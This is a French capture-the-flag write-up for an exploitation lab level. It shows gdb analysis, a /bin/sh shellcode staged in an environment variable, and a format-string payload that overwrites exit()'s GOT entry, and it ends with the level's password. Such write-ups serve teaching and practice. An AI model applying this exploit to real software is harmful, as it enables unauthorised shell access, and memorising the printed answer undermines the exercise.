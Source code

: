 # Level 05

### Protections

![](Ressources/protections.png)

### Analyse

* Le programme fait un `fgets()` de 100 caracteres
* Il boucle sur notre entree et converti les majuscules en minuscules
* Il fait un `printf()` de notre buffer puis `exit(0)`
  * Cela empeche l'exploitation d'une modification du saved-eip.

On peut en revanche tenter de modifier la **GOT** (Global Offset Table) afin de "remplacer" `exit()` par un shellcode.

### Exploitation

En essayant de passer le shellcode dans le buffer avant la boucle while on s'apercoit que notre shellcode est bien present dans la stack : 

```
(gdb) x/21x $esp+0x28
0xffffd5a8:     0x6a    0x0b    0x58    0x99    0x52    0x68    0x2f    0x2f
0xffffd5b0:     0x73    0x68    0x68    0x2f    0x62    0x69    0x6e    0x89
0xffffd5b8:     0xe3    0x31    0xc9    0xcd    0x80
```

Mais la transformation des char dans la boucle modifie notre shellcode est donc devient inutilisable en l'etat actuel :

```
(gdb) x/21x $esp+0x28
0xffffd5a8:     0x6a    0x0b    0x78    0x99    0x72    0x68    0x2f    0x2f
0xffffd5b0:     0x73    0x68    0x68    0x2f    0x62    0x69    0x6e    0x89
0xffffd5b8:     0xe3    0x31    0xc9    0xcd    0x80
```

*Pour changer, nous allons faire passer notre Shellcode par les variables d'environnement.*

Notre shellcode est le suivant: `\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80`

On commence par le mettre en place dans l'env:

`export SHELLCODE=$(python -c 'print "\x90" * 1024 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')`

*On y a ajoute une belle marge de 1024 instructions NOP en vue des differences de memoires entre GDB et Bash.*

Ensuite, on localise l'adresse GOT d'`exit()`:

```
(gdb) disas main
.......... ......    ....   ......... .........
0x08048513 <+207>:   call   0x8048370 <exit@plt>
.......... ......    ....   ......... ..........
(gdb) x/i 0x8048370
0x8048370 <exit@plt>:        jmp    *0x80497e0
```

L'adresse que l'on ecrasera sera alors **0x80497e0**.

Il nous faut ensuite localiser notre variable d'environement:

```
(gdb) info variable environ
All variables matching regular expression "environ":
Non-debugging symbols:
0xf7fd0e04  __environ
0xf7fd0e04  _environ
0xf7fd0e04  environ

(gdb) x/x 0xf7fd0e04
0xf7fd0e04 <environ>:   0xffffd29c
(gdb) x/x 0xffffd29c
0xffffd29c:     0xffffd3fa
(gdb) x/s 0xffffd3fa
0xffffd3fa:      "LC_PAPER=fr_FR.UTF-8"
(gdb) x/5s 0xffffd3fa
0xffffd3fa:      "LC_PAPER=fr_FR.UTF-8"
0xffffd40f:      "LC_ADDRESS=fr_FR.UTF-8"
0xffffd426:      "LC_MONETARY=fr_FR.UTF-8"
0xffffd43e:      "SHELLCODE=\220\220.....
.........................................
```

On recupere **0xffffd43e**+10 (pour eviter "SHELLCODE="), et on y ajoute 512 afin de se servir de la marge etablie precedement -> **0xffffd63e**

On recupere ensuite l'offset de `printf()` pour atteindre notre buffer.

```
level05@OverRide:~$ (python -c 'print "aaaa" + "%p"*10') | ./level05 
aaaa0x640xf7fcfac00xf7ec3af90xffffd5ef0xffffd5ee(nil)0xffffffff0xffffd6740xf7fdb0000x61616161
```

**Offset:** 10

*On peut enfin finaliser notre injection.*

On donc utiliser l'argument `%n` de `printf()` pour ecraser l'adresse de la **GOT**. *(plus d'explications dans notre repository de Rainfall)*

On ecrit d'abord la partie basse car la somme de la partie haute est plus grande:

```
d63e: 54846 - 8 = 54838
ffff: 65535 - 54838 - 8 = 10689
```

`(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%54838d" + "%10$hn" + "%10689d" + "%11$hn"'; cat) | ./level05`

* "\xe0\x97\x04\x08" et "\xe2\x97\x04\x08" sont les parties haute et basse de l'entree GOT d'`exit()`.
* "%54838d" et "%10689d" permettent d'augmenter le compteur de `printf()`.
* "%10$hn" et "%11hn" visent les adresses citees au dessus et ecrivent le compteur actuel de `printf()` dans 2 bytes.

**h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq**

